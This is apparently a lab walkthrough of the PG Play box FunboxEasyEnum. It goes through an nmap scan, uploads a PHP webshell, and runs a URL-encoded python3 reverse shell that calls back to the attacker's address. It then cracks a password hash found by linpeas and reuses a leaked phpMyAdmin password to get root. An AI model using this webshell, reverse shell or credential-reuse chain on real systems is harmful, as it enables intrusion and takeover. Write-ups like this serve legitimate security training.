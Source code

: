 # PG Play - FunboxEasyEnum

#### Ip: 10.129.30.102
#### Name: FunboxEasyEnum
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 192.168.182.132
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-22 14:27 CDT
Nmap scan report for 192.168.182.132
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.91 seconds                                                          
```

SCanning for idrectories we find `/mini.php`

![pg_fbee_dirs.png](../assets/funboxeasyenum_assets/pg_fbee_dirs.png)

![pg_fbee_mini.png](../assets/funboxeasyenum_assets/pg_fbee_mini.png)

We can upload a simple webshell:

```php
<?php system($_GET["cmd"]); ?>
```

![pg_fbee_cmd.png](../assets/funboxeasyenum_assets/pg_fbee_cmd.png)

And confirm execution

![pg_fbee_id.png](../assets/funboxeasyenum_assets/pg_fbee_id.png)

Lets issue a python3 reverse shell one liner:

```
http://192.168.182.132/cmd.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.202%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

An we catch a shell back as www-data:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.202] from (UNKNOWN) [192.168.182.132] 56982
www-data@funbox7:/var/www/html$ whoami 
whoami
www-data
www-data@funbox7:/var/www/html$ hostname
hostname
funbox7
```

We can then grab the loacl.txt flag in `/var/www`

![pg_fbee_local.png](../assets/funboxeasyenum_assets/pg_fbee_local.png)

### Privilege Escalation

Loading linpeas we find tha password hash for user oracle, which we can crack with John:

```
╔══════════╣ Users with console
goat:x:1003:1003:,,,:/home/goat:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
karla:x:1000:1000:karla:/home/karla:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
root:x:0:0:root:/root:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
```

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ cat >> hash                                
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ john hash /usr/share/wordlists/rockyou.txt 
<SNIP>
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
hiphop           (?)  
```

Yet nothing came of being user oracle.

Going back to my original linpeas output we find a DB cred:

```
══════════╣ Searching passwords in config PHP files
/etc/phpmyadmin/config-db.php:$dbpass='tgbzhnujm!';
/etc/phpmyadmin/config-db.php:$dbuser='phpmyadmin';
```

I test for password reuse and see that user karla is also using this password:

```
oracle@funbox7:/home$ su karla
su karla
Password: tgbzhnujm!

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

karla@funbox7:/home$ whoami
whoami
karla
```

Running `sudo -l` we see that karla can run anything she wants as root:

```
karla@funbox7:/home$ sudo -l
sudo -l
[sudo] password for karla: tgbzhnujm!

Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```

So we can run:

```
karla@funbox7:/home$ sudo su -
sudo su -
root@funbox7:~# whoami
whoami
root
```

And grab the final flag:

![pg_fbee_root.png](../assets/funboxeasyenum_assets/pg_fbee_root.png)

Thanks for following along!

-Ryan

--------------------------------------------
